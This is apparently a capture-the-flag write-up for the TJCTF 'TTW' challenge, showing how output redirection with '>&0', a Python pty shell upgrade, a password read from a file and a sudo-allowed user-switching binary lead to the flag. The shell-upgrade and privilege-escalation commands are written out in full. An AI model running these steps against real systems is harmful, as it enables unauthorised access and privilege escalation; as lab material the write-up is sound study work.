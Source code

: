 # TTW

So, what a mess this was. Firstly, we started by performing a timing attack. That managed to get us quite a lot of things, but it was annoying having to wait 5 minutes for some results. So lets look for a better option. Looking at the hint, it says to think about I/O. Hmmm, ok. Connecting through netcat, it prints out "Imagine having a usable terminal". Ok, interesting. If we try and enter in a command, it doesn't output anything. Odd. We can probably assume that all our commands are being sent to `/dev/null`, where they just get wiped away. What if we could trick the connection to redirect our commands anywhere, instead of `/dev/null`. If we know that `2>/dev/null` sends any errors there, we can redirect our output to the input as we're connected there, doing `>&0`. Once we've done some enum, we can use the name of the challenge "TT Why" (sounding like TTY) to spawn a tty shell, where we can run sudo -l (as password.txt has problem-user password) to see that we can run `/usr/bin/chguser` as root. Changing user, navigating to home folder, then to flag, we get flag.txt
```
>ls -alR ./ >&0
message.txt
password.txt
```
```
> cat message.txt
Man, I just sure wish I could impersonate other_user
```
```
> cat password.txt
Password for problem user: 1234qwer
```
```
> python -c 'import pty; pty.spawn("/bin/bash")' >&0
```
```bash
$ sudo -l
(root) /usr/bin/chguser
```
```bash
$ sudo /usr/bin/chguser other-user
Password: 1234qwer
```
```bash
$ ls -alR 
./flag:
flag.txt
```
```bash
$ cat flag/flag.txt
```
#### tjctf{ptys_sure_are_neat}
